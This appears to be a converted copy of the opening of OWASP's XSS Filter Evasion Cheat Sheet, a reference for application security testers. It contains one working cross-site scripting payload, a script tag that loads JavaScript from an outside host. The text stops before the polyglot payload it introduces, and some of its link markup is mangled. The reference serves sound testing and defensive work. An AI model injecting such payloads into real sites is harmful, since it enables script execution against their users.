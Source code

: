 ```yaml
---

layout: col-sidebar
title: XSS Filter Evasion Cheat Sheet
author: 
contributors:
permalink: /attacks/XSS_Filter_Evasion_Cheat_Sheet
tag: attack, xss filter evasion, cheat sheet
auto-migrated: 1

---
```


# Introduction

`__TOC__``This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS Cheat Sheet, which was at: `<http://ha.ckers.org/xss.html>`. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention Cheat Sheet, the `[`XSS`` 
 ``(Cross``   ``Site``   ``Scripting)``   ``Prevention``   ``Cheat`` 
 ``Sheet`](XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet "wikilink")`, was inspired by RSnake's XSS Cheat Sheet, so we can thank him for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack cheat sheet, and so the `[` 
 ``OWASP``   ``Cheat``   ``Sheet`` 
 ``Series`](Cheat_Sheets "wikilink")` was born.`

# Tests

This cheat sheet lists a series of XSS attacks that can be used to
bypass certain XSS defensive filters. Please note that input filtering
is an incomplete defense for XSS which these tests can be used to
illustrate.

## Basic XSS Test Without Filter Evasion

This is a normal XSS JavaScript injection, and most likely to get caught
but I suggest trying it first (the quotes are not required in any modern
browser so they are omitted here):

`<SCRIPT SRC=`[`http://xss.rocks/xss.js></SCRIPT>`](http://xss.rocks/xss.js%3E%3C/SCRIPT%3E)`;`

## XSS Locator (Polygot)

The following is a "polygot test XSS payload." This test will execute in
multiple contexts including html, script string, js and url. Thank you
to [Gareth Heyes](https://twitter.com/garethheyes) for this
[contribution](https://twitter.com/garethheyes/status/997466212190781445).

